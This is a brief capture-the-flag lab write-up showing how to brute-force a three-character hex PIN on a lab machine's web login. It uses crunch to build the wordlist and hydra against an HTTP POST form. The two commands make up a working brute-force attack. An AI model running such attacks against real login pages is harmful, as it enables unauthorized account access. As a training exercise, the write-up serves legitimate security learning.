

# Hydra is Coming to Town

## Solution
- Hit "Start Machine" and connect at http://IP:8000/.


- Notice the password is 3 characters at most and the characters list is [0,1,2,3,4,5,6,7,8,9,A,B,C,D,E,F].
- Generate a password list with crunch considering all the possible combinations from 1 to 3 characters.
```bash
crunch 1 3 0123456789ABCDEF -o pass.txt
```
- Inspect the login HTTP Post request with Owasp Zap.


- Run hydra to bruteforce the pin code.
```bash
hydra -l '' -P pass.txt 10.10.153.120 -s 8000 http-post-form "/login.php:pin=^PASS^:Access denied" -t 32 -v
```



- Click "Lock Door" to get the flag.


